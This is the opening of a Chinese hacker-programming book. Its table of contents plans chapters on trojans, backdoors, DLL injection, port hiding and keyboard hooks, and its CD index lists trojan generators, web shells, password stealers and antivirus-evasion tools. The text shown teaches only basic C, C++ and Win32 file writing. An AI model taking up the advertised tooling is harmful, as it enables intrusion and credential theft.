# 黑客编程入门

作者：张炜



HACKER X FILES  
WWW.HACKERXFILES.NET

- 菜鸟 VC++ 编程基础
- 网络编程入门
- 菜鸟后门初探
- 后门编程步步高
- DLL 木马编程进阶
- 菜鸟地狱隐藏端口
- 高手内 HOOK 编程

## 《黑客X档案》制作

# 黑客编程入门

作者：王伟


吉林科学技术出版社

## 《黑客编程入门》

出版：吉林科学技术出版社

出品人：孙胜利

主编：杨东柱

编辑部主任：姜连成

编辑部：sagi、楚汉、Moon、sleky、虫虫

光盘部：姜连成、丛林

平面设计：谭海梅

排版：卜晓沛

E-mail：hackerxfiles@263.net

邮购查询电话：010-88560080

联系电话：010-88561165

邮编：100037

定价：26元（图书＋光盘）

声明：刊中所载文字及图片，经著作权人授权本刊。版权所有，未经许可，不得转载。文章内容谨代表作者观点，与本刊立场无关。

## 目录

CONTENTS

# 第一章 菜鸟 VC++ 编程基础

- 1.1 C 语言简介 6
- 1.2 C++ 语言简单分析 9
- 1.3 Windows API 编程 11
- 1.4 MFC 简介 17
- 1.5 VC 是什么 20
  - 1.5.1 编译器 20
  - 1.5.2 IDE 界面 24
  - 1.5.3 MFC 编程接口 25
- 1.6 在 VC 中进行调试 26
  - 1.6.1 VC 中调试方法简介 26
  - 1.6.2 上梯子——调试 28
  - 1.6.3 大数上梯子 31
  - 1.6.4 “喜欢它，就实现它”——大数类上梯子 35

# 第二章 网络编程入门

- 2.1 计算机网络通信编程方法 43
  - 2.1.1 基于 NetBIOS 编程 43
  - 2.1.2 基于 Windows Socket 编程 47
  - 2.1.3 基于 WinPcap 编程 47
  - 2.1.4 基于物理设备编程 47
- 2.2 网络通信协议原理和结构 48
  - 2.2.1 ISO/OSI 七层模型 48
  - 2.2.2 TCP/IP 协议 49
- 2.3 Windows Socket 编程 55
  - 2.3.1 Socket 介绍 56
  - 2.3.2 Windows Socket 和相关函数 56
  - 2.3.3 网络编程细节 63
- 2.4 传送名字——网络编程的第一个例子 70
  - 2.4.1 服务端流程 70
  - 2.4.2 服务端测试 71
  - 2.4.3 客户端流程 73
  - 2.4.4 客户端实现和联调 74

# 第三章 菜鸟后门编写初探

- 3.1 基本的执行 DOS 命令木马 76
- 3.2 零管道木马和反弹木马 86
- 3.3 木马功能的增强和扩展模块 90
  - 3.3.1 结果的实现——打造初步后门 91
  - 3.3.2 cmd shell 的自由切换 94
  - 3.3.3 模板＝木马 95
- 3.4 普通木马的自启动实现 97
  - 3.4.1 启动文件夹 97
  - 3.4.2 注册表启动键值 101
  - 3.4.3 应用程序关联 105
  - 3.4.4 启动文件 106
  - 3.4.5 注册服务 107
  - 3.4.6 其他方法 109

# 第四章 后门编程步步高

- 4.1 Socket 高级编程 110
  - 4.1.1 密码验证——Socket 超时编程 110
  - 4.1.2 支持多用户——网络多线程 113
  - 4.1.3 多线程中的同步 118
- 4.2 TCP 协议和木马中的高级应用 121
  - 4.2.1 客户端验证——验证码 121
  - 4.2.2 FTP 协议 123
  - 4.2.3 SMTP 协议 129
  - 4.2.4 HTTP 协议及利用 133
- 4.3 UDP 协议和木马中的高级应用 137
  - 4.3.1 UDP 木马 137
  - 4.3.2 模仿冲击波，实现 TFTP 服务器 140
  - 4.3.3 P2P 和 UDP Hole 143

# 第五章 DLL 木马编程进阶

- 5.1 DLL 简介 148
- 5.2 普通 DLL 程序的编写 148
- 5.3 首个 DLL 木马 152
- 5.4 DLL 木马模板 155
- 5.5 利用 Rundll32 启动 DLL 156
- 5.6 DLL 远程注入 157
  - 5.6.1 DLL 木马的基本注入 157
  - 5.6.2 木马注入的多线程改进 161
  - 5.6.3 自动查找进程号注入 161
  - 5.6.4 直接注入 exe 程序 165
- 5.7 替换系统服务启动 DLL 木马 169

## 第六章 木马的环形隐藏端口

- 6.1 木马技术攻与防 177
  - 6.1.1 进程及隐藏 177
  - 6.1.2 自启动方式 179
  - 6.1.3 通信端口 179
- 6.2 端口复用实现隐藏端口 184
  - 6.2.1 直接替代原服务 185
  - 6.2.2 转发给原服务实现嗅探 185
  - 6.2.3 不影响原服务的木马 190
- 6.3 Raw Socket 隐藏 191
  - 6.3.1 Raw Socket 编程 192
  - 6.3.2 Raw Socket 木马 194
  - 6.3.3 ICMP 后门 199

# 第七章 高手的 HOOK 编程

- 7.1 HOOK 简介 202
- 7.2 HOOK 例子——截获键盘输入 203
  - 7.2.1 进入其他进程方法小结 203
  - 7.2.2 HOOK 键盘输入 205
  - 7.2.3 HOOK 中文输入 211
- 7.3 HOOK recv 函数——跳转法 212
  - 7.3.1 方法简介 212
  - 7.3.2 本进程 recv HOOK 的实现 213
  - 7.3.3 结合注入 HOOK 远程进程的 recv 函数 221
- 7.4 修改 IAT 导入地址表 226
  - 7.4.1 IAT 和 IAT HOOK 简介 226
  - 7.4.2 “Hacked by Chinese!”——修改 IAT 在 RedCode 蠕虫中的利用 228
  - 7.4.3 IAT HOOK 的实现 229
- 7.5 内存中备份整个 DLL 238

# 光盘索引（部分）

CDindex

## 兵器推荐

- **CHM 不闪出网马**：这个东西是不闪的，穿 WinXP SP2。
- **挑战木马生成器**：使用非常简单，傻瓜型的工具。
- **最新 SP2 网马生成器**
- **多线程插入 explorer 木马**：复制到 `c:\winnt\` 下运行 ExcuteDllTest，自动插入 explorer 进程，开机自运行。
- **WebAdmin**：一个运行在 ASP.NET 环境下的 Web 后门。是个基于 C/S 控制的版本。
- **密码 8.0**：一款功能强大、使用简单的信息截取、远程监控、即时通讯软件。
- **核子鼠汉化版+SDK**：服务端更新了连接上有的时候闪断错误，连接方式还是使用主动连接和 IP 反向连接两种方式。
- **WEB 综合检测工具**
- **惊云 SQL 注射漏洞利用工具**：很久前的一个漏洞，不过利用工具注射时才出来的。
- **还原精灵 5.5 密码读取器**
- **暴风雨网吧破解**：实现破解网吧的一些控制和隐藏文件的功能。
- **AVFucker 汉化版**：很不错的软件特征码修改工具，只是生成出来的太大了。
- **花花密盗**：不错的盗密码工具。
- **ASP 网站管理员账号密码探测**：利用 ASP 中 SQL 语句的漏洞，自动猜测运算，并获取网站的管理员账号和密码的一个小工具。
- **无奈网盗无壳版**：可以截获 Windows（98/ME/2000/XP/2003）平台下几乎所有的密码。
- **ZoneAlarm Pro**：它可以为我们的电脑提供安全的网络防火墙服务，通过检查计算机上所有与因特网外部的连接，把可能有安全隐患的服务一律扼杀在萌芽之中。
- **网站注入扫描工具**：PHP+MySQL 网站注入扫描工具，针对 PHP 网站所编写，界面是仿教程的 HDSI 中的 PHP 注入模块写的。
- **图形界面的 NMAP 扫描器**
- **PHPWindBlog 漏洞利用程序**
- **Discuz 4.0 RC3 利用程序**
- **HDSI**：支持 ASP、PHP 的 SQL 注入。
- **网址嗅探器**：在 PpSniffer.TXT 里自行加入嗅探的文件格式。这个版支持 WinXP SP2。
- **Alexa 世界排名提升工具**：添加了保存设置和开机启动自动读取保存的数据自动运行，达到完全自动化等。
- **IPC$ 助理器**：能够有效防止对方通过 IPC$ 管道连接对您进行入侵，可以通过修改注册表的方法对您的主机进行保护，也可以通过此软件连接目标主机实施 IPC$ 入侵。

## 图书相关

- 《第一章 菜鸟 VC++ 编程入门》相关代码
- 《第二章 网络编程入门》相关代码
- 《第三章 菜鸟后门编写初探》相关代码
- 《第四章 后门编程步步高》相关代码
- 《第五章 DLL 木马编程进阶》相关代码
- 《第六章 菜鸟也来隐藏端口》相关代码
- 《第七章 高手的 HOOK 编程》相关代码

## 学海追潮

- 21天学会 C 语言
- Borland C++ 高级编程技术
- VC++ 面向对象入门
- JSP 深入编程
- JSP 应用开发详解
- PHP 核心编程
- JSP 动态网页新技术
- 远程破解还原精灵高级版动画教程
- dvbbs 7.0.0 后门制作动画教程
- Google 狂抓 shell
- 阿 D 检测不出的注射点
- 利用 MDB 溢出制作超级隐藏后门动画教程
- 一分钟入侵网站动画教程
- 用 Telnet 传木马动画教程

## 自娱自乐

- 乐吧
- 迪奥：换了两刺刀
- 拼不过你我绕着走
- 小游戏
- 猴子跳高
- 黄金矿工 2005 最新中文版本
- 心灵鸡汤
- 爱·琴·海
- 贴心的温柔
- 音乐一角
- 不要隐身
- 那女孩对我说
- 声色 MV
- 45 位足球巨星合唱《真爱一生》
- 历年港姐冠军特辑
- 阅读吧
- 偷渡客
- 开放社会及其敌人
- 全球通史
- 世界富豪故事 100 篇
- 我把欧洲塞进背包

# 第一章 菜鸟 VC++ 编程基础

这一年的冬天显得格外的冷，但追求卓越的小菜们，却一个个伏案疾书，挥汗如雨，一如既往地向着自己追求的领域努力进发。

新一期的安全技术课堂也开学了。

老师望着台下的小菜们说道：“光阴似箭，日月如梭，转眼新的一年就要开始了。在这里，我仅代表……，代表……祝大家……祝大家……（此处省略五百字），最后祝大家在新的一年里，心想事成，不仅从乌蛋孵化成菜鸟，还从小菜鸟变成了大菜鸟！”

“好耶！好耶！”小菜们顿时嚷起来，“我们也祝老师越来越帅！”“祝本书的作者能成为最佳作者！”“祝《黑客编程入门》大卖特卖！”“老师万人迷！”

“哈哈，好！真是说到我心坎上了啊！”老师满意地说道。“虽然外边已是天寒地冻，但我们的小菜们却坐在温暖如春的教室里上课，真是一种享受呀！”

“老师，一寸光阴一寸金！让我们立即开始这段……这段……课程吧。”菜鸟 A 差点念成“大话西游”。

“好的。同学们，从这学期开始，我们学习如何使用 VC 进行程序设计，特别是网络程序的开发。”老师说道。

“好哩，早就想有机会学习 VC++ 了。”小菜们高兴地说道。

“学 VC，又学习网络编程，哈哈，我的木马，我的黑客，嘿嘿嘿嘿……我来 yeah。”

“是啊，是啊，早就听说过 VC 这门语言强大得很呢！”大家议论纷纷。

老师忙说道：“VC 可不是一门语言啊。C 和 C++ 能称为语言，而 VC++ 只能说是工具。它们之间有很大不同的。”

“哦？”大家疑惑了。

“看来我们还先从基础讲起吧，首先看看常见的概念：C、C++、API 和 MFC 间的区别。”

## 1.1 C 语言简介

C 语言是目前最流行、使用最广泛的高级程序设计语言。

C 语言的原型是 ALGOL 60 语言。1963年，剑桥大学将 ALGOL 60 语言进行发展，成为 CPL（Combined Programming Language）语言。1967年，剑桥大学的 Martin Richards 对 CPL 语言进行了简化，于是产生了 BCPL 语言。

1970年，美国贝尔实验室的 Ken Thompson 将 BCPL 进行了修改，并以第一个字母 B 取名为“B 语言”，意思是将 CPL 语言精简掉，提炼出它的精华。并且他用 B 语言写了第一个 UNIX 操作系统。

而在 1973年，B 语言又再次精简，美国贝尔实验室的 D. M. Ritchie 在 B 语言的基础上最终设计出了一种新的语言，他取了 BCPL 的第二个字母作为这种语言的名字，这就是 C 语言。

为了使 UNIX 操作系统推广，1977年 Dennis M. Ritchie 发表了不依赖于具体机器系统的 C 语言编译文本《可移植的 C 语言编译程序》。

1978年 Brian W. Kernighan 和 Dennis M. Ritchie 出版了名著《The C Programming Language》，从而使 C 语言成为目前世界上流行最广泛的高级程序设计语言。

1988年，随着微型计算机的日益普及，出现了许多 C 语言版本。由于没有统一的标准，使得这些 C 语言之间出现了一些不一致的地方。为了改变这种情况，美国国家标准协会（ANSI）为 C 语言制定了一套 ANSI 标准，成为现行的 C 语言标准。

C 语言的主要特点：C 语言功能强大，使用灵活。它具有高级语言的基本结构和语句，又可以像汇编语言一样对位、字节和地址进行操作，所以 C 语言又被称为中级语言。

C 语言生成代码的质量高，程序执行效率高。除了 *nix，许多著名的系统软件，如 DBASE III PLUS、DBASE IV 都是由 C 语言编写的。C 还可以嵌入汇编，用 C 语言加上一些汇编语言子程序，就更能显示 C 语言的优势了，像 PC-DOS、WORDSTAR 等就是用这种方法编写的。

“好了。”老师一挥手说道，“说了这么多，其实都是废话，想表达的就是 C 很流行、C 很强大、C 很重要。如果大家要从事程序设计方面的学习和工作，应该要学好 C 语言。OK，我们举个简单的例子吧，一个输出文件的 C 源程序 file.c 如下。”

```c
#include <stdio.h>      /* 头文件 */
int main()
{
    FILE *fp;                  /* 文件指针 */
    char output[] = "Hello,C!";/* 输出内容 */
    fp = fopen("text.txt", "w"); /* 打开文件 */
    fprintf(fp, "%s", output);   /* 往文件写入内容 */
    fclose(fp);                  /* 关闭文件 */
    return 0;                    /* 退出程序 */
}
```

“啊，啊，啊……”台下几声惨叫。

“怎么了？”老师吓了一跳，赶忙回头。

“不懂，不懂。”原来大家看程序看得头痛。

“哦，我还以为成都平原地震了呢……不用担心，不用担心，我们一句一句地看。”老师安慰道，“请大家留意一下，这个程序虽然简单，却包含了 C 语言拥有的大部分特征，以及更复杂更强大的程序，包括 UNIX 这样的操作系统，虽然代码量非常大，但也都是这样的结构。”

“哦，所谓窥豹一斑，一叶而知天下之秋就是指这样吧。”小菜们突发感叹。

“对！不过大家要有举一反三的精神，不然可就成了水中望月，镜中观花啦。”

“首先 `#include <stdio.h>`，是包含库文件 stdio.h 到源程序中。”

“`#include` 是预处理命令，预处理命令还有其它几种，这里的 include 称为文件包含命令，其意义是把尖括号 `<>` 或引号 `""` 内指定的文件包含到本程序来，成为本程序的一部分。”

“在本例中，使用了三个库函数：fopen 打开文件函数、fprintf 文件输出函数和 fclose 关闭文件函数，均在头文件 stdio.h 文件里定义，因此要用 include 命令包含 stdio.h。”

老师补充道：“如果不将其 include 进来，编译程序时会报如下错误和警告。”

```text
error C2065: 'FILE' : undeclared identifier; can not find
warning C4013: 'fopen' undefined; assuming extern returning int
warning C4013: 'fprintf' undefined; assuming extern returning int
warning C4013: 'fclose' undefined; assuming extern returning int
```

“错误的意思是 FILE 未定义，标识符不能找到；警告的意思是 fopen、fprintf 和 fclose 等函数没有定义。”

“如果把 stdio.h 文件 include 进去，在编译时，编译器会把整个 stdio.h 文件内容都自动加到源程序的开头，这样就不会报错了。但我们只使用了其中的 fopen、fprintf 和 fclose 三个函数，还有很多其他 stdio.h 中并没有使用到的定义，使我们的程序变得很长。在 Windows 下，还采用了一种叫 DLL（动态链接库）的方法来加以改进，在后面的课程中，我们会讲到 DLL 编程，到那里时再详细地解释。”

“`/* 头文件 */`，是 C 源程序中的注释。在 C 语言中，`/*` 和 `*/` 之间的内容被当作注释，`/*` 和 `*/` 可以跨行使用。编译器编译时，会忽略之间的内容。注释的作用主要是使程序员便于阅读和理解源代码的含义。作为一个‘优美’的程序，注释也是很重要的部分。规范的注释可以很大地方便后期的维护和修改。”

“接下来的 `int main() {……}` 是程序的主入口函数。任何一个 C 程序，都只能有且只有一个 main 函数。”

“如果源程序中没有 main 函数，在链接的时候会报错如下：`error LNK2001: unresolved external symbol _main`，意思是缺乏外部符号 `_main`。”

“程序就是最先进入 main 中，一步步地执行。”

“`FILE *fp;` 定义一个文件指针，以后通过它来打开、输入和关闭文件。C 语言规定，源程序中所有用到的变量都必须先说明，后使用，否则会报如下错误：`error C2065: 'fp' : undeclared identifier`。”

# 黑客编程入门

“意思 fp 没有定义。这是因为 C 语言是编译型语言，在编译的过程中，编译器先对定义的变量分配相应的空间，在后面使用时才有对应的空间可用。”

> C 语言是一门区分大小写的语言，也就是说 FILE *fp、FILE *Fp 和 FILE *FP 中的 fp、Fp 和 FP，会被当成是不同的变量。这一点新手们特别容易出错，特此提醒。

“`char output[] = "Hello,C!";` 定义一个 char 数组，里面存的内容是 “Hello,C!”，我们将把它输入到文件中。在 C 语言中，字符串用 char 数组来表示，遇到 ‘\x0’ 表示结束。刚才的定义，编译器会自动在 “Hello,C!” 后面添加一个 ‘\x0’ 结束标志。但这种方式使 C 语言不能确切知道数组的长度，只能一个字节一个字节地数到最后的 ‘\x0’ 来算出长度，从而使 C/C++ 成为‘不安全’的语言，存在缓冲区溢出的漏洞。”

“`fp = fopen("text.txt","w");` 调用 stdio.h 里定义的 fopen 函数打开文件。fopen 函数里面带有两个参数，第一个参数 “text.txt” 为要打开的文件名；第二个参数 “w”，指明存取权限，“w” 表示是往文件中重新写入内容，如果指明的文件 “text.txt” 不存在，则先创建文件。”

“类似的，第二个参数还可以为 ‘r’，读取文件内容，如果指明文件不存在，则打开失败。‘a’ 在文件末尾新加内容，如果指明文件不存在，则先创建文件；‘r+’，对一个已存在文件读取和写入；‘w+’，对一个新文件读取和写入；我们这里没这么麻烦，用 ‘w’ 就可以了。”

“`fprintf(fp,"%s", output);` 终于到往文件中写入内容的语句了。C 语言的 fprintf 函数可以帮助我们完成该功能。第一个参数 fp 为文件指针，第二个参数 “%s” 指明输出的是字符串，第三个参数 output 为要输出的字符串内容——“Hello,C!”。”

第二个参数除了是 “%s”，指明字符串类型外，还可以是：

- `%c`：字符类型
- `%d`：整型
- `%o`：无符号整型
- `%x`：十六进制数
- `%f`：浮点数

在 C 语言中，输出不同的类型，需要指明不同的类型域——这和 C++ 的输出不同，C++ 可以自动匹配，我们可以在后面看见。`fclose(fp);` 关闭文件指针。最后 `return 0` 表示运行结束，退出 main 函数。

## 小结

老师说道：“解释了这么久，累死我了。我们在 VC 下编译，执行该程序，看看效果吧。”

“先把程序输到文件中。新建一文本文档，然后重命名为 file.c；双击该文件，VC++ 会自动运行并打开该文件，我们在 VC 中输入上面的源代码。”

“然后按 Ctrl+F7 编译该文件，会提示是否新建工作区，点确定确认；等编译结束后再按 Ctrl+F5 链接和执行文件。”

“随着惬意的 ‘Linking... file.exe - 0 error(s), 0 warning(s)’ 的提示，在同目录下生成了一个 text.txt 文件，并且输入了内容为 ‘Hello,C!’，如图 1.1。”



“哦！成功了！”同学们欢呼道。

“纯 C 语言的代码，其函数名和类型名均为小写，C++ 也是这样的。”老师说道，“C++ 是在 C 语言基础上发展的一门语言。我们来看看传说中的 C++ 吧。”

## 1.2 C++语言简单分析

“C++ 语言，是在 C 语言的基础上，加上面向对象的思想，并改进了 C 语言的一些不足，从而产生的一门新语言。”

“面向对象的思想是一种重要的思想，是人们认识客观世界的一种重要方法论。它把世界上每种东西都看成是一种对象，各个对象具有各自的状态和处理方法，各对象间通过发送消息进行交互。比如，人是一种对象，具有身高、体重、肤色等状态；钟也是一种对象，有时针、分针等状态；人要知道时间，给钟发出看表的消息，来完成交互。”

“而在 C++ 语言中，通过类这种数据结构来实现面向对象的思想。类相当于特殊的变量，它可以存储数据，可以让你提要求，命令它进行一些操作。并且，我们可以通过类的封装、复用、继承和多态性等特性，来完成代码的重用，提高开发效率。”

“在 C 语言中，++ 为变量自加运算符，比如常用的循环语句 `for(int i=0; i<=len; i++)`。所以 C++ 表示它是在 C 语言基础之上发展而来的，而且比 C 更完善和强大。”

老师说道：“用 C++ 语言写输出文件的例子如下。同样，这个简单的例子显示了 C++ 程序的一般格式。”

```cpp
#include <fstream.h>    // C++中的fstream.h头文件
int main()
{
    fstream file;       // 定义fstream类的一个对象file
    file.open("testcpp.txt", ios::in|ios::out, 0); // 用类的open方法建立文件
    file << "Hello C++!" << endl;   // 用类的<<操作符输出内容
    file.close();       // 用类的close方法关闭文件
    return 0;
}
```

“C++ 中最重要的思想就是面向对象的思想，从这个小程序里也可以窥其一斑。我们也一句一句地解释吧。”

“首先 `#include <fstream.h>`，在 C++ 中，对文件的操作是通过 stream 的子类 **fstream（文件流）** 来实现的，所以，要用这种方式操作文件，就必须加入头文件 fstream.h。”

“后面的 ‘//C++ 的 fstream.h 头文件’ 是注释。在 C++ 中，比 C 语言多了种注释方法，就是双斜线 ‘//’ 方式。双斜线是单排注释方式，从 ‘//’ 开始到本排结束，C++ 都把它当成注释内容。”

“主函数的第一句 `fstream file;` 是定义了 fstream 类的一个对象 file。类和对象的关系是抽象和具体的关系，就像人类和 ww0830 一样的关系。”

“类是个抽象的概念，不能真正地执行操作，必须定义了类的具体对象，才能由对象去执行所属类拥有的能力。”

“也如人类有讲课这个能力，但学校却不能让某个人类去讲课；只能让人类里的某个对象——ww0830，就是我去完成讲课的操作，讲的是什么东西？就是你正在看的这本书啊！”

“所以 fstream 这个类虽然拥有文件操作的能力，但我们不能让这个类去写文件，只能定义这个类的具体对象——file 去操作文件。”

“有了 file 这个对象，就可以操纵 fstream 类里面定义的成员函数。fstream 类有很多成员函数，其中一个成员函数 `open()`，可以用来打开文件。”

原型：

```cpp
void open(const char* filename, int mode, int access);
```

参数：

| 参数 | 说明 |
|---|---|
| char* filename | 要打开的文件名 |
| int mode | 要想打开文件的方式 |
| int access | 打开文件的属性 |

打开文件的方式 **int mode** 在类 **ios**（是所有流式 I/O 类的基类）中定义，常用的值如下：

| 模式 | 说明 |
|---|---|
| ios::app | 以追加的方式打开文件 |
| ios::in | 文件以输入方式打开 |
| ios::out | 文件以输出方式打开 |
| ios::binary | 以二进制方式打开文件 |
| ios::nocreate | 不建立文件，所以文件不存在时打开失败 |
| ios::noreplace | 不覆盖文件，所以打开文件时如果文件存在则失败 |
| ios::trunc | 如果文件存在，把文件长度设为 0 |

可以用“或”把以上属性连接起来；如 `ios::in|ios::out`。

打开文件的属性 **int access** 的常用值有：

| 值 | 属性 |
|---|---|
| 0 | 普通文件，可打开访问 |
| 1 | 只读文件 |
| 2 | 隐含文件 |
| 4 | 系统文件 |

也可以用“或”或者“+”把以上属性连接起来，如 “3” 或 “1|2” 就是以只读和隐含属性打开文件。这个时候，老师强调道：“无论是在 C 函数还是 API 函数中，都可以用按位取或 ‘|’ 符号来把多个属性连接起来。可以这样做的原因是，那些属性都是整数值，而且精心规划，用二进制表示时，都只有一位是 1，其他位均为 0。就像打开文件属性值有 0(0000)、1(0001)、2(0010)、4(0100) 几种，这样用 ‘|’ 符号按位取或，比如 1|2 = (0001) | (0010) = (0011) = 3 后，仍可以清楚地反映出其实使用了 0010 和 0001 这两种属性值。”

老师歇了歇，继续说道：“同样的，`ios::in`、`ios::out` 和 `ios::app` 也类似，分别是 in = 1(0001)、out = 2(0010)、app = 8(1000)，合起来后仍然可以分辨。大家一定想得到还会有一个值是 4(0100) 的属性吧。”

小菜们答道：“是啊，是啊，它是什么呢。”

老师说道：“它是 `ios::ate`，表示定位到文件尾。”

“哦！Bingo！”台下打了个响指。“又学到了以前不知道的东西！老师继续讲吧。”

通过对象操纵成员函数，只需要在对象名的后面加上一个点 “.”，再跟上成员函数就可以了。就像上面代码里的 `file.open("testcpp.txt",ios::in|ios::out,0);` 一样，表示用 open 成员函数打开名为 “testcpp.txt” 的普通文件，权限是输入输出。

打开了文件，可以用 `fstream` 类的 “<<” 运算符来向文件写入内容。就像上面代码里 `file << "Hello C++!" << endl;`，先往文件输出 “Hello C++!”，然后输出 endl——回车换行。

最后关闭文件，使用 `fstream` 类 `close()` 成员函数来完成该功能。上面代码中的 `file.close();`，就把 file 对象相连的文件关闭。

## 小结



图 1.2

“Hello C++!”，还是回车符 endl，都用 “<<” 符号直接输出。”

“哦，不说还真没注意，确实不一样啊。”同学们仔细地对比两个程序后，问道：“怎么回事呢？C++ 都用 ‘<<’ 输出不会出错吗？”

老师回答道：“这就是 C++ 另一个重要的特性——多态性。虽然都是同样的运算符 ‘<<’，但做的工作却不同，C++ 可以自动判断要输出的是什么类型，然后自动做不同输出的操作。有了多态性，可以大大减少程序员的工作量。”

“哇！真的是程序虽小，思想俱全啊！”大家感叹道。

“嗯，但在我们课程中不会更多地使用 C++ 以及类的思想，因为类把操作封装好了后，反而不利于我们自由地构造底层数据。这里我们更关注的是 C 语言编程和 Windows API 编程。Let's Go!”

## 1.3 Windows API编程

API 的英文全称是 Application Programming Interface，即应用程序编程接口，Windows API 就是指 Windows 系统下的应用程序编程接口。

当 Windows 操作系统逐渐开始占据主导地位的时候，开发 Windows 平台下的应用程序成为人们的需要；如果用纯 C 或 C++ 开发 Windows 环境下的窗口程序，费时费力，效果也不好。

Microsoft 公司在开发 Windows 系统时，也给出了 Windows 系统下编程的解决方案。这就是 Windows 平台 API 应用程序接口。它是 Windows 提供给程序员的一系列 API 函数。这些 API 函数同一般的 C 函数相似，具有输入输出参数，执行后有返回值。有了这些 API 函数，程序员们就可以像“积木块”一样，要完成什么样的功能，就调用所对应的 API 函数，从而搭建出各种各样的应用程序。

API 的上层是千变万化的应用程序，而 API 的下层就是 Windows 的操作系统核心了。API 函数是构筑 Windows 系统编程的基石，一切在 Windows 下的操作，最终都会映射为 API 函数的调用！

“哦，Windows 下的所有功能都是通过调用 API 函数来完成的吗？”同学们歪着头问。

“是！”老师肯定地回答道。

“会不会有什么 Windows 的应用程序，没有通过 API 函数就能实现它的功能呢？比如刚才的那个 C 程序。”同学们问道。

老师笑道：“呵呵，任何应用层的程序涉及到系统时，最终都是使用 API 来完成功能的。那个 C 程序，同样最终调用 API 完成功能；不仅如此，就连我们直接在资源管理器里点右键，选新建文件，最终也是调用 API 实现的。”

“好！Windows API 随着系统的发展而发展，从过去的 WIN16 API 发展到现在普遍使用的 WIN32 API，以及 64 位系统拥有的 WIN64 API。”

用 Windows API 函数建立文件的例子如下，当然是 WIN32 API 的程序。

```c
#include <windows.h> // 包含windows.h
int main()
{
    HANDLE hFile;      // 句柄
    DWORD num;         // DWORD = unsigned long
    hFile = CreateFile(
        "testAPI.txt", GENERIC_WRITE,
        0, NULL,
        OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL,
        NULL);         // 建立文件句柄
    WriteFile(
        hFile, "Hello API!",
        sizeof("Hello API!"), &num,
        NULL);         // 往文件中写入"Hello API!"
    CloseHandle(hFile);    // 关闭文件句柄
    return 0;
}
```

解释一下。`#include <windows.h>`，包含 windows.h 头文件，当要使用 Windows API 函数进行编程时，就一定要包含这个头文件。`HANDLE hFile; DWORD num;` 定义两个变量。HANDLE 和 DWORD 都是 Windows 的数据类型。HANDLE 称为句柄，可以用来指向一种对象；而 DWORD 其实就是 `unsigned long`，即无符号长整型。这样定义的 hFile 是一个句柄，num 是一个整数。

在 Windows API 函数中，可以使用 `CreateFile()` 函数来建立或打开文件。

原型：

```c
HANDLE CreateFile(
    LPCTSTR lpFileName,
    DWORD dwDesiredAccess,
